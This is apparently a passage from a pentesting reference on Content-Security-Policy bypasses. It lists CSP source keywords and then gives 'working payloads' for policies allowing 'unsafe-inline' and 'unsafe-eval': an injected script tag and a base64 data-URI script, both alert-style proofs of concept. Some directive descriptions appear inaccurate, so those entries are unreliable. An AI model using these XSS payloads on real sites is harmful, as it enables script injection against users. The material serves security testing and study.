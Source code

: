 <details><summary>Load script reusing nonce</summary></details>

* `'sha256-<hash>'`: Whitelists scripts with a specific sha256 hash.
* `'strict-dynamic'`: Allows loading scripts from any source if it has been whitelisted by a nonce or hash.
* `'host'`: Specifies a specific host, like `example.com`.
* `https:`: Restricts URLs to those that use HTTPS.
* `blob:`: Allows resources to be loaded from Blob URLs (e.g., Blob URLs created via JavaScript).
* `filesystem:`: Allows resources to be loaded from the filesystem.
* `'report-sample'`: Includes a sample of the violating code in the violation report (useful for debugging).
* `'strict-origin'`: Similar to 'self' but ensures the protocol security level of the sources matches the document (only secure origins can load resources from secure origins).
* `'strict-origin-when-cross-origin'`: Sends full URLs when making same-origin requests but only sends the origin when the request is cross-origin.
* `'unsafe-allow-redirects'`: Allows resources to be loaded that will immediately redirect to another resource. Not recommended as it weakens security.

## Unsafe CSP Rules

### 'unsafe-inline'

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline'; 
```

Working payload: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' via Iframes

{% content-ref url="csp-bypass-self-+-unsafe-inline-with-iframes.md" %}
[csp-bypass-self-+-unsafe-inline-with-iframes.md](csp-bypass-self-+-unsafe-inline-with-iframes.md)
{% endcontent-ref %}

### 'unsafe-eval'

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval'; 
```

Working payload:

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### strict-dynamic

If you can somehow make an **allowed JS code created a new script tag** in the DOM with your JS code, because an allowed script is creating it, the **new script tag will be allowed to be executed**.

### Wildcard (\*)

```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
```
